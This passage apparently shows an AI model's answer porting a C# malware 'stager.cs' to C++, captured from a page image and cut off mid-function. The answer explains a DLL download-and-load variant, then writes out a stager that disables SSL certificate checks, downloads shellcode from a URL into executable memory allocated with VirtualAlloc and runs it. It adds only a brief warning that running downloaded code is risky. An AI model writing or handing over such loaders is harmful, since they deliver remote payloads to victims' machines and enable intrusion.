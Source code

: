 ```cpp
    return 0;
}
```

### Explanation:
1. **WinINet API**: This C++ code uses the WinINet API to download the file from a URL. This is a straightforward approach to network operations in Windows.
   
2. **Memory Buffer**: The file is read into a buffer and then loaded into memory using `LoadLibraryA`, which loads the file as a DLL. Note that `LoadLibraryA` expects a path, so this might need adjustment based on the exact behavior you need. If you need to load the binary from memory, you would typically use a more complex process.

3. **Execution**: The code attempts to locate and call a function within the DLL using `GetProcAddress` and execute it.

### Important Considerations:
- **Error Handling**: Proper error checking is essential, particularly around network operations and memory management.
- **Security**: Executing downloaded code carries significant security risks and is generally unsafe. Ensure you understand the implications and only do this in controlled environments.
- **Encoding/Decoding**: If your stager involves encrypted shellcode, you’ll need to add decryption logic before execution.

If the original `stager.cs` contains additional features or specific nuances, you might need to adjust this C++ code accordingly. Let me know if you need further refinement!

Here is a C++ version of the `stager.cs` code that downloads bytecode from a URL, disables SSL certificate checks, copies the shellcode into memory, and then executes it.

### C++ Code:

```cpp
#include <windows.h>
#include <wininet.h>
#include <iostream>

// Disable SSL certificate validation
BOOL WINAPI InternetCallback(HINTERNET, DWORD_PTR, DWORD, LPVOID, DWORD) {
    return TRUE;
}

// Function to execute shellcode
void ExecuteShellcode(BYTE* shellcode, SIZE_T size) {
    // Allocate executable memory
    void* exec_mem = VirtualAlloc(0, size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    // Copy shellcode into the allocated memory
    RtlMoveMemory(exec_mem, shellcode, size);

    // Cast the memory to a function pointer and execute it
    auto shellcode_func = (void(*)())exec_mem;
    shellcode_func();
}

// Function to download bytecode from URL and execute it
void DownloadAndExecuteShellcode(const char* url) {
    // Initialize WinINet
    HINTERNET hInternet = InternetOpen("Stager", INTERNET_OPEN_TYPE_DIRECT, NULL, NULL, 0);
    if (!hInternet) {
        std::cerr << "InternetOpen failed!" << std::endl;
        return;
    }

    // Set SSL certificate validation callback
```